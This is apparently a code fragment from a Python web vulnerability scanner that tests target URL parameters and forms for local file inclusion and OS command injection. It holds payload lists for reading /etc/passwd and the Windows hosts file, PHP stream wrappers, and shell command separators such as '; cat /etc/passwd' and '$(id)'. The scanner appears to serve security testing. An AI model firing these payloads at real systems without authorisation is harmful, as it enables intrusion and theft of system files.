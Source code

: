 ```python
            "../../../../etc/passwd",
            "..\\..\\..\\..\\windows\\system32\\drivers\\etc\\hosts",
            "/etc/passwd%00",
            "....//....//....//etc/passwd",
            "php://filter/read=convert.base64-encode/resource=index.php",
            "php://input",
            "data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg=="
        ]
        
        # Common parameter names for file inclusion
        file_params = ['file', 'page', 'include', 'path', 'template', 'doc', 'url']
        
        # Test URL parameters
        for endpoint in list(self.endpoints)[:3]:  # Limit for demo
            for param in file_params:
                for payload in lfi_payloads[:3]:  # Test first 3 payloads
                    test_url = f"{endpoint}?{param}={payload}"
                    
                    try:
                        response = self.session.get(test_url, timeout=10)
                        
                        # Check for LFI indicators
                        lfi_indicators = [
                            'root:', 'bin/bash', '[fonts]', 'Windows Registry',
                            'localhost', 'PD9waHAgcGhwaW5mbygpOw=='  # Base64 of <?php phpinfo();
                        ]
                        
                        for indicator in lfi_indicators:
                            if indicator in response.text:
                                vuln_info = f"File inclusion vulnerability: {test_url}"
                                self.vulnerabilities.append(vuln_info)
                                print(f"  [!] {vuln_info}")
                                break
                                
                    except requests.RequestException:
                        continue
        
        print(f"  Tested file inclusion vulnerabilities")
    
    def test_command_injection(self):
        """Test for OS command injection vulnerabilities"""
        print("\n[+] Testing command injection...")
        
        # Command injection payloads
        cmd_payloads = [
            "; cat /etc/passwd",
            "| cat /etc/passwd",
            "& type c:\\windows\\system32\\drivers\\etc\\hosts",
            "; ping -c 4 127.0.0.1",
            "| whoami",
            "; id",
            "& echo 'command_injection_test'",
            "`whoami`",
            "$(id)",
            "${USER}"
        ]
        
        # Test forms for command injection
        for form in self.forms[:2]:  # Limit for demo
            form_action = urljoin(self.target_url, form['action'])
            
            for payload in cmd_payloads[:3]:  # Test first 3 payloads
                form_data = {}
```